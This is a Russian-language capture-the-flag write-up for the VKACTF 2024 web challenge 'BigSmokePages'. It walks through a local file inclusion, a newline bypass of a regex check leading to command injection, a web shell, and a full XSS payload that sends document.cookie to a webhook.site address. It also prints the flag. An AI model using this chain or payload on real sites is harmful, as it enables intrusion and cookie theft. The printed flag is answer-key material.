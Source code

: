 # BigSmokePages

|   Cобытие   | Название | Категория | Сложность |
| :---------: | :------: | :-------: | :-------: |
| VKACTF 2024 |  BigSmokePages |  Web  |  Легкая  |

## Описание

>Авторы: [EGM x Po4est]
>
>BigSmoke записывает все свои задачи в блокнот, а потом отправляет их кому-то для проверки. Но зачем???

# Решение

1. На ручке view_file.php, находим lfi в параметре file.
2. Находим сорцы нашего сервиса. Видим, что в create_file.php используется ```system("touch ./files/$filename")``` с предварительной проверкой 
```
if (preg_match('/^[a-zA-Z0-9_]{0,30}+$/m', $filename) !== 1) {
        header("Location: error.php");
        exit;
}
```
3. Видим CRLF инъекцию в регулярное выражение и обходим его для выполнения os injection.
4. Заливаем веб шелл и с помощью него в файл ```evil.html``` записываем ```XSS``` нагрузку
```
<img src onerror="window.location.replace('https://webhook.site/<webhook>?a='+document.cookie)">
``` 
для получения ```cookie```.

6. Отправляем боту ссылку ```http://bigsmokepages.vkactf.ru/evil.html``` и ловим на веб хук флаг, находящийся у него в куках.



### Флаг


```
vka{B1G_Smoke_bIg_boSS}
```
